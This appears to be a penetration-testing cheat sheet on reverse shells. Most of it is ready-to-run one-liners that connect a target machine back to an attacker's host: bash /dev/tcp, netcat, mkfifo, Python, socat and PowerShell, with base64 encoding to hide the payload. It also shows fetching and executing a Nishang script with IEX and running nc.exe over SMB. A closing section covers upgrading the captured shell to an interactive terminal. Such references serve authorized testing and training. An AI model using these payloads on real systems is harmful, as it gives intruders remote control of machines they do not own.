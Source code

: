 # Reverse Shells

A **reverse shell** is an attack where a compromised machine connects back to an attacker's machine, allowing the attacker to remotely control the target system and execute commands.

## Reverse Shells

### Reverse Shell Generator

[https://www.revshells.com/](https://www.revshells.com/)

### Bash

```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}

We can encode the content in **base64**, to avoid conflicts with symbols and spaces in URLs. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

```bash
# Get the encoded command
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64

# Execute the reverse shell
echo <b64_code> | base64 -d | base64 -d | bash
```

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python3

```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python3
```

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell&#x20;

#### Base64

```bash
# Get the encoded command
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | base64 -w 0; echo

# Execute the reverse shell
powershell -e <b64_code>
```

#### Nishang

Run this on your local machine:

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && curl -sL https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -o rs.ps1 && echo "Invoke-PowerShellTcp -Reverse -IPAddress $i -Port $p" >> rs.ps1 && python3 -m http.server 80
```
{% endcode %}

And while running the python http server, execute this on the target:

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<ip>/rs.ps1')" 
```

#### Netcat

Locate "nc.exe" and copy it to your current directory, then run this on your local machine:

```bash
smbserver.py <share_name> $(pwd) -smb2support
```

And while running the smb server, execute this on the target:

```html
\\<ip>\smbShare\nc.exe -e cmd <ip> <port>
```

## Interactive TTYs

{% hint style="info" %}
It is also possible to use `rlwrap` when starting your listening socket. (e.g. `rlwrap nc -nlvp 443`)
{% endhint %}

```bash
script /dev/null -c bash
```

or

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

and then

```bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <rows> columns <cols>
```
